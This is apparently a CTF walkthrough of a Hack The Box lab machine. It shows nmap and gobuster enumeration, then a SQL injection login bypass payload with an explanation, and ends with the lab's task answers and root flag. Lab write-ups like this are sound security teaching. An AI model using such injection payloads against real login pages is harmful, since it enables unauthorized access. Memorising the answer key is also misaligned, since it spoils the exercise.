 ## Walkthrough

- nmap scans

```
┌─[birb@coffee]─[~]
└──╼ $nmap 10.129.56.206
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 19:49 IST
Nmap scan report for 10.129.56.206
Host is up (0.57s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 50.46 seconds
```

```
┌─[birb@coffee]─[~]
└──╼ $nmap 10.129.56.206 -sC -sV -p80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 20:00 IST
Nmap scan report for 10.129.56.206
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.62 seconds
```

- did a dirbust to find directories on the http server
- found nothing useful lol

```
┌─[birb@coffee]─[~]
└──╼ $gobuster dir --url 10.129.56.206 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.56.206
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/03/16 20:03:44 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.129.56.206/css/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.56.206/fonts/]
/images               (Status: 301) [Size: 315] [--> http://10.129.56.206/images/]
/index.php            (Status: 200) [Size: 4896]                                  
/js                   (Status: 301) [Size: 311] [--> http://10.129.56.206/js/]    
/server-status        (Status: 403) [Size: 278]                                   
/vendor               (Status: 301) [Size: 315] [--> http://10.129.56.206/vendor/]   
===============================================================
2023/03/16 20:06:31 Finished
===============================================================
```

- opened `http://10.129.56.206` in browser

(https://github.com/nyxtales0x0/htb/blob/master/boxes/starting-point/tier-1/images/Pasted%20image%2020230316231358.png?raw=true)

- tried sql injection to bypass login

> username : birb' or 1=1;#
> password : coffee
>
> behind the scenes because of the `'` the string ended there and the `or 1=1` part got executed. when combined together it would return true even if the user `birb` is not present. the `#` at the end comments out rest of the sql statement checks on the server side thus making the password check useless.

- got the flag

(https://github.com/nyxtales0x0/htb/blob/master/boxes/starting-point/tier-1/images/Pasted%20image%2020230316231208.png?raw=true)

## Tasks

**What does the acronym SQL stand for?**

=>  Structured Query Language 

**What is one of the most common type of SQL vulnerabilities?**

=> SQL injection

**What does PII stand for?**

=> Personally Identifiable Information

**What is the 2021 OWASP Top 10 classification for this vulnerability?**

=> A03:2021-Injection

**What does Nmap report as the service and version that are running on port 80 of the target?**

=> Apache httpd 2.4.38 ((Debian))

**What is the standard port used for the HTTPS protocol?**

=> 443

**What is a folder called in web-application terminology?**

=> directory

**What is the HTTP response code is given for 'Not Found' errors?**

=> 404

**Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?**

=> dir

**What single character can be used to comment out the rest of a line in MySQL?**

=> #

**If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?**

=> Congratulations

**Submit root flag**

=> e3d0796d002a446c0e622226f42e9672